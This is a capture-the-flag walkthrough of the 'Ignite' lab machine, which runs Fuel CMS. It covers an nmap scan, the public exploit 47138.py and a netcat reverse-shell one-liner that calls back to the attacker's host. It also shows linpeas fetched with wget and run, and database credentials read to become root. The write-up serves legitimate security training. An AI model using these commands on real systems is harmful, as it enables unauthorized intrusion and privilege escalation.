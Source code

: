 Ignite Walkthrough

First, start by scanning the services on the machine

```
sudo nmap -sC -sV -O x.x.x.x -vvv
```

This revealed it has a webserver running on port 80

Browse to webpage and it lists ``` /fuel/ ``` as a directory.

I am able to see this is a Fuel CMS. At the bottom of the page, there are default credentials. However, this doesnt seem to be useful to me.

I then search for a Fuel CMS exploit.

```
searchsploit Fuel CMS
```

This returns a python script, 47138.py.

I opened the Python script to check it out, then edit the IP address of the victim.

I then ran the python script as follows:

```
python 47138.py
```

This brings up a line that looks like this:

```
cmd:
```

This exploit is allowing me to execute code on the remote machine. I intend to use this to get a reverse shell. To do this I went about this with a few tools and known assets.

The first thing I did is fired up Burp suite. 

After this, I initiated a netcat listener on my machine.

```
nc -lvnp 9999
```

I then issued the following one liner to the ``` cmd: ``` in order to get the request to Burp.

```
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.x.x.x 9999 >/tmp/f
```

Remember to change the IP address above to your machine, and the port needs to match your netcat listener. 

Once this has been run, I can see the request show up in Burp. I simply click the "forward" button in Burp, and the shell is given on the netcat terminal. It is a basic shell and will look like this:

```
$
```

We can then access the user flag located here:

```
/home/www-data/flag.txt
```

We then need to access the root flag, but we get a permission denied when trying to get to that directory.

On my Kali machine, I have the linpeas.sh script and I need to get it to the host.

To do this, I did the following on my local machine:

```
cd /Tools
sudo python3 -m http.server 9090
```

From the victim machine I did the following:

```
cd /
cd /tmp
wget http://10.x.x.x:9090/linpeas.sh
chmod 777 linpeas.sh
./linpeas.sh
```

This will take some time to run, but will yield some great results. 

We are able to locate a database file located here:

```
/www/html/fuel/application/config/database.php
```

So we need to look at this file:

```
cat /www/html/fuel/application/config/database.php
```

This yielded the following:

```
'username' => 'root'
'password' => 'mememe'
```

Lets try to see if the credentials work.

```
$ su root
su root
Password: mememe

root@ubuntu:/var/www/html/fuel/application/config#
```

It worked!

Lets get that root flag!

```
cat /root/root.txt
```

Thats it, we are done!



